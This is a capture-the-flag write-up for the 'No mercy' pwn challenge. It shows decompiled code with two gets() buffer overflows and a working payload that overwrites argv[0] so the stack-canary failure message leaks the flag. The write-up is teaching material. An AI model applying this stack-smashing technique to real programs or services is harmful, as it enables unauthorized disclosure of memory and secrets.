 # No mercy (Pwn)

We get [ELF binary](no_mercy) with canary and NX on.
There are two blatant buffer overflows in the code, since it's using `gets`:

```c
int main() {
    var_AC = *(ecx + 0x4);
    var_C = *0x14;
    eax = 0x0;
    var_70 = 'Flag'; //  0x08048573
    var_6C = '{fla';
    var_68 = 'g_is';
    var_64 = '_on_';
    var_60 = 'serv';
    var_5C = 'er}';
    eax = &var_58;
    ecx = 0x0;
    ebx = 0x1a & 0xfffffffc;
    edx = 0x0;
    do {
            *(ebp + edx + 0xffffffa8) = 0x0;
            edx = edx + 0x4;
    } while (edx < ebx);
    var_70 = 'Flag';
    *(int16_t *)(eax + edx) = 0x0;
    eax = 0x2 + eax + edx;
    eax = strcpy(&var_A2, &var_70);
    eax = printf("what's your name: ");
    eax = gets(&var_3E); // Buffer overflow
    eax = printf("Welcome %s\n", &var_3E);
    eax = printf("so tell me a joke: ");
    eax = gets(&var_70); // Buffer overflow
    eax = printf("so silly , gtfo ==>[]");
    eax = dup2(0x1, 0x2);
    esp = ((((((((esp - 0x10) + 0x10 - 0x10) + 0x10 - 0x10) + 0x10 - 0x10) + 0x10 - 0x10) + 0x10 - 0x10) + 0x10 - 0x10) + 0x10 - 0x10) + 0x10;
    eax = *0x14 ^ *0x14;
    if (eax != 0x0) {
            eax = __stack_chk_fail();
    }
    else {
            ebx = stack[2046];
            esp = &var_8 + 0xc;
            ebp = stack[2047];
            esp = stack[2045] + 0xfffffffc;
    }
    return eax;
}
```

The trick here is that once you smash the stack, the server actually sends you the error message.
This message contains the name of the binary.
The idea is to overwrite the pointer which points to the binary name, and place there the pointer to flag contents.

The payload we send is: `'a' * 234 + '\x73\x85\x04\x08'`.
We need to go up 234 bytes to reach the pointer position with binary name and then we overwrite it with the flag address.
From this we get back: `Flag{sm4ash_argv_sm4sh_env_sm4sh_ev3rything!}`
